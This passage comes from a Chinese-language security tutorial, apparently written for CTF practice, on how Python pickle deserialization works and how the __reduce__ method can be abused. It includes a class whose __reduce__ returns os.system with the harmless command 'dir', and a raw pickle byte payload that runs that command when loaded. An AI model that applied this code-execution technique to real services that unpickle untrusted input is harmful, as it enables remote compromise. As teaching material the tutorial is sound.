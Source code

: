 [![](assets/1705886719-593bb0243f91b8dce96e3da82fd893b1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240119211124-3f4aaad0-b6cc-1.png)

> 从代码中可以看到，如果inst中拥有\_\_setstate\_\_方法，则会将state交给setstate()方法进行处理，否则就将inst中的内容，通过遍历的方法，将state的内容合并到inst\_dict字典中。

12、最后全部做完后，当前栈就剩下了完整的B实例，然后读取下一个.指令代表着STOP，即反序列化结束。

# 漏洞产生(**reduce**)

简单了解了pickle反序列化的大概原理和流程，下面就可以分析下漏洞产生的原理。在CTF比赛中，pickle反序列化大多数都可以直接利用\_\_reduce\_\_方法，可以通过\_\_reduce\_\_构造恶意的字符串，从而在被反序列化的时候，导致\_\_reduce\_\_被执行，从而操作RCE。我们以下面代码为例：

```plain
import os
import pickle
import pickletools

class B():
    def __init__(self, num, passwd):
        self.num = num
        self.passwd = passwd
    def __reduce__(self):
        return (os.system,('dir',))

# x = B('123', 'password')
# payload=pickle.dumps(x)
# print(payload)
# pickletools.dis(payload)
pickle._loads(b'\x80\x04\x95\x1b\x00\x00\x00\x00\x00\x00\x00\x8c\x02nt\x94\x8c\x06system\x94\x93\x94\x8c\x03dir\x94\x85\x94R\x94.')
```